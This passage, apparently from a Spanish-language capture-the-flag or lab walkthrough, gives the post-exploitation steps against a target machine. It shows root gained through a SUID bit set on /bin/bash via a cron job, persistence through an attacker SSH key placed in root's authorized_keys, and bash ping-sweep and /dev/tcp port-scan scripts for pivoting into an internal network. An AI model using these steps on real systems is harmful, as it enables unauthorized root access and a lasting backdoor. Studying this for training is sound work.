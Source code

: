 Explicación: añadimos el comando para dar permisos SUID a la bash. Al ejecutarse la tarea cron que debe de estar corriendo por detrás se modifica los permisos de `/bin/bash`. Obteniendo una shell como usuario root ejecutando `bash -p`


---

### Persistencia


Acción:

```bash
cd /root/.ssh
nano authorized_keys
exit
ssh root@192.168.1.82
```

**Nota:** desde la máquina atacante generamos un par de claves pública y privada para poder copiar en el directorio `/roor/.ssh/` y ganar persistencia a la máquina objetivo. Para ello en la máquina atacante ejecutamos `ssh-keygen` y le damos a `Enter` tres veces (las que pide) para generar las claves, no hay que escribir nada, solo ejecutar `cat ~/.ssh/id_rsa.pub | tr -d '\n' | xclip -sel clip` para copiar en la clipboard la contraseña pública y poder pegarla en la máquina objetivo en un archivo llamado `authorized_keys` y guardado en la ruta `/root/.ssh/`

Explicación: generamos una clave ssh que almacenamos en la raíz del sistema root, para poder conectarnos sin otorgar contraseña cuando queramos a la máquina objetivo


---

## Pivoting


Script: hostDiscovery.sh

```bash
#!/bin/bash

for i in $(seq 1 254); do
  timeout 1 bash -c "ping -c 1 10.10.0.$i" &>/dev/null && echo "[+] Host 10.10.0.$i - ACTIVO" &
done; wait
```

Script: host_portDiscovery.sh 

```bash
#!/bin/bash

for i in $(seq 1 254); do
  for port in 12 22 53 80 443 445 8080; do
    timeout 1 bash -c "echo '' > /dev/tcp/10.10.0.$i/$port" &>/dev/null && echo "[+] Host 10.10.0.$i -PORT $port - ABIERTO" &
  done
done; wait
```
